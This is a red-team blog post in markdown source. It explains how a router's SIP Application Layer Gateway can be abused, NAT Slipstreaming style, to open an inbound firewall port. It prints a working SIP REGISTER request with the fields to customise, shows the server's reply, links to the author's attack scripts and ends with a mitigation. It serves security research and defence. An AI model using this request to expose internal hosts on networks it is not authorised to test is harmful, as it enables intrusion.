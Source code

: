 ```yaml
---
title: "Abusing Application Layer Gateways (NAT Slipstreaming)"
date: 2020-11-23T23:00:57-08:00
draft: true
tags: [
        "red",
        "ttp",
        "research"
    ]
---
```


You might have heard about ["NAT Slipstreaming"](https://samy.pl/slipstream/) by Samy Kamkar. It's an amazing technique that allows punching a hole in your routers firewall by just visiting a website.

The attack depends on the router having the `Application Layer Gateway` enabled. This gateway can be used by anyone inside your network to open a firewall port (totally by design). Protocols such as `SIP` (Session Initiation Protocol) use it.

What I will focus on in this post is the `Application Layer Gateway Protocol` (`ALG`) and `SIP`. In particular to understand how these can be abused by an adversary. 

I won't be discussing the browser-based attack angle in this post.

Let's get started.

## Application Layer Gateway and SIP

The `ALG` monitors traffic passing through your router. It will act on and modify requests for some protocols if enabled. One of the protocols that can be enabled is `SIP`. 

`SIP` is a text-based protocol, just like HTTP. It is used in Voice over IP (VoIP) applications. VoIP works better peer-to-peer, so there is a `REGISTER` verb that allows punching a hole into your firewall. 

More details of the `SIP` protocol are described in [RFC 3327](https://tools.ietf.org/html/rfc3327). 

To learn more about this I implemented a simple fake SIP server and a client for Linux/macOS and also a client for PowerShell for Windows.

### Implementing a fake SIP Server 

The fake SIP server is just a basic TCP server written in Python. I took the core messages that are sent back and forth from Samy's implementation.

The code for the server, called it natty-slipstream, is [here](https://github.com/wunderwuzzi23/natty-slipstream/blob/main/sip-server.py).

### SIP REGISTER Request

After the fake `SIP` server is up and running outside your network, you can try to punch a hole in your firewall. This is done by sending the `REGISTER` request to the server.

I created two implementations for this:

1. [Windows PowerShell](https://github.com/wunderwuzzi23/natty-slipstream/blob/main/Invoke-NATOpenPort.ps1)
2. [Linux/macOS - Bash/curl](https://github.com/wunderwuzzi23/natty-slipstream/blob/main/natty.sh.txt)

For the `Bash` based Linux/macOS version `curl` is used. Interestingly my router did not mind some incorrect headers and strings in the `SIP` requests.

*If you are on macOS you might have to modify the way to get local IP, if you don't have `ip` available. Or just manually update the script and insert the IP on your local network*

This is how the request looks like:

```
REGISTER sip:example.org;transport=TCP SIP/2.0
Via: SIP/2.0/TCP 192.168.1.141:5060;branch=I9hG4bK-d8754z-c2ac7de1b3ce90f7-1---d8754z-;rport;transport=TCP
Max-Forwards: 70
Contact: <sip:wuzzi@192.168.1.141:1433;rinstance=v40f3f83b335139c;transport=TCP>
To: <sip:wuzzi@example.org;transport=TCP>
From: <sip:wuzzi@example.org;transport=TCP>;tag=U7c3d519
Call-ID: aaaaaaaaaaaaaaaaa0404aaaaaaaaaaaabbbbbbZjQ4M2M.
CSeq: 1 REGISTER
Expires: 70
Allow: REGISTER, INVITE, ACK, CANCEL, BYE, NOTIFY, REFER, MESSAGE, OPTIONS, INFO, SUBSCRIBE
Supported: replaces, norefersub, extended-refer, timer, X-cisco-serviceuri
Allow-Events: presence, kpml
Content-Length: 0

```

The parts of the request that require customization are:

* `192.168.1.141` The IP address of the internal target machine 
* `Port 5060` The remote port of the fake SIP Server 
* `Port 1433` The port that we want to expose externally to the fake SIP server

### Address Translation

If your router has `ALG` for `SIP` enabled, it will replace the internal IP address in the packet (in this case `192.168.1.141`) with the routers public IP address. 

### SIP Response

After receiving the client's request, the server responds with the following message:

```
SIP/2.0 200 OK
Via: SIP/2.0/TCP 174.nn.nn.nnn:59973;branch=I9hG4bK-d8754z-c2ac7de1b3ce90f7-1---d8754z-;rport;transport=TCP;received=10.10.10.10
From: <sip:wuzzi@example.org;transport=TCP>;tag=U7c3d519
To: <sip:wuzzi@example.org;transport=TCP>;tag=37GkEhwl6
Call-ID: aaaaaaaaaaaaaaaaa0404aaaaaaaaaaaabbbbbbZjQ4M2M.
CSeq: 1 REGISTER
Contact: <sip:wunder@174.nnn.nnn.nnn:44444;rinstance=v40f3f83b335139c;transport=TCP>;expires=3600
Content-Length: 0

```

Notice the IP address (`174.nn.nn.nnn`) which is the public IP of the router.

When the response is processed by the router, it will replace the public IP with the internal IP again. 

And it will open up the requested port `1433` for the server to connect. Nice.

### The hole is punched

That is it, now I was able to connect to the port from the outside!

The port stayed open for about 2 minutes. I tried changing the expiration header, but it did not change the duration of the exposure for my router model. But two minutes is plenty of time to connect.

## Mitigation

Check your router configuration to ensure attack surface is limited. Disabling `SIP` and `ALG` on the router will mitigate this. In my case there was no need for `ALG`, so this was a simple fix. 

This is a design flaw of the protocol, and it is not unlikely that more attacks in this realm will show up as more people start looking at this.


## Conclusion

That's it. Hope this was interesting and useful. For red teaming this is an interesting TTP to expose internal infrastructure with a benign looking request to port `5060`.

If you haven't yet, check out [Cybersecurity Attacks - Red Team Strategies](https://www.amazon.com/gp/product/1838828869/ref=as_li_tl?ie=UTF8&tag=wunderwuzzi-20&camp=1789&creative=9325&linkCode=as2&creativeASIN=1838828869&linkId=07bfd6b729fbc2b2904160e0e16c337f) for lots of red teaming goodies.

Cheers,
Johann.

Twitter: [@wunderwuzzi23](https://twitter.com/wunderwuzzi23)


## References

* [RFC 3327](https://tools.ietf.org/html/rfc3327)
* [NAT Slipstream, Samy Kamkar](https://samy.pl/slipstream/)
